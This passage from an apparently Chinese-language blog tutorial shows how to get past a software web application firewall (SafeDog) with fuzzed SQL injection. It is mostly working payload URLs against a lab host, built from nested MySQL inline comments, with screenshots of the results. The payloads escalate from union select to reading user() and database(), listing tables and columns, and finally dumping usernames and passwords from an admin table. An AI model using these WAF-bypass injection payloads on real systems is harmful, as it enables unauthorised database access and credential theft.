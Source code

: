 kali 运行结果如下

[![](https://img.colabug.com/2018/02/295a308e30a4c66ad23bc0cc80752e74.jpg)](https://img.colabug.com/2018/02/295a308e30a4c66ad23bc0cc80752e74.jpg "Fuzz自动化Bypass软WAF姿势")

随便取一个姿势出来看看姿势有了

```
http://192.168.30.129/fuzz/index.php?id=1/*!union/*!/*!*//*!select/*!/*!*/1,2
```

[![](https://img.colabug.com/2018/02/e5819d01fe66fec6bfae8918a3fa3ca0.jpg)](https://img.colabug.com/2018/02/e5819d01fe66fec6bfae8918a3fa3ca0.jpg "Fuzz自动化Bypass软WAF姿势")

我们来手工绕过下吧！

```
http://192.168.30.129/fuzz/index.php?id=1/*!union/*!/*!*//*!select/*!/*!*//*!user()/*!/*!*/,2
```

[![](https://img.colabug.com/2018/02/92ac0eb061949268fcbfdb01e5a07ca3.jpg)](https://img.colabug.com/2018/02/92ac0eb061949268fcbfdb01e5a07ca3.jpg "Fuzz自动化Bypass软WAF姿势")

这样又被拦截了，“你不是说绕过了安全狗了吗？”。当然已经绕过了，需要这样写语句

```
http://192.168.30.129/fuzz/index.php?id=1/*!union/*!/*!*//*!select/*!/*!*//*!user/*!/*!()*/,2
```

[![](https://img.colabug.com/2018/02/00eb7ecac2d2600f353e0b6f82361cda.jpg)](https://img.colabug.com/2018/02/00eb7ecac2d2600f353e0b6f82361cda.jpg "Fuzz自动化Bypass软WAF姿势")

```
http://192.168.30.129/fuzz/index.php?id=1/*!union/*!/*!*//*!select/*!/*!*//*!user/*!/*!()*/,/*!database/*!()*/
```

[![](https://img.colabug.com/2018/02/e3184cc14356fb64ed5ddd829fd8da5d.jpg)](https://img.colabug.com/2018/02/e3184cc14356fb64ed5ddd829fd8da5d.jpg "Fuzz自动化Bypass软WAF姿势")

```
http://localhost/fuzz/index.php?id=1/*!and/*!/*!*//*!1=2/*!/*!*//*!UNION/*!/*!*//*!ALL/*!/*!*//*!SELECT/*!/*!*//*!group_concat(table_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.tables/*!/*!*//*!where/*!/*!*//*!table_schema=/*!/*!*//*!database/*!/*!()*/
```

[![](https://img.colabug.com/2018/02/c56f7171122cb1984305a51ec34f2c4f.jpg)](https://img.colabug.com/2018/02/c56f7171122cb1984305a51ec34f2c4f.jpg "Fuzz自动化Bypass软WAF姿势")

```
http://localhost/fuzz/index.php?id=1/*!and/*!/*!*//*!1=2/*!/*!*//*!UNION/*!/*!*//*!ALL/*!/*!*//*!SELECT/*!/*!*//*!group_concat(column_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.columns/*!/*!*//*!where/*!/*!*//*!table_name=/*!/*!*//*!"admin"/*!/*!*/
```

[![](https://img.colabug.com/2018/02/cfab6d2f4025c4a426eddf75cdeea1af.jpg)](https://img.colabug.com/2018/02/cfab6d2f4025c4a426eddf75cdeea1af.jpg "Fuzz自动化Bypass软WAF姿势")

获取出了 admin 表的字段

```
http://localhost/fuzz/index.php?id=1/*!and/*!/*!*//*!1=2/*!/*!*//*!UNION/*!/*!*//*!ALL/*!/*!*//*!SELECT/*!/*!*//*!group_concat(concat(user,0x2c,pwd))/*!/*!*/,NULL/*!from/*!/*!*//*!admin/*!/*!*/
```
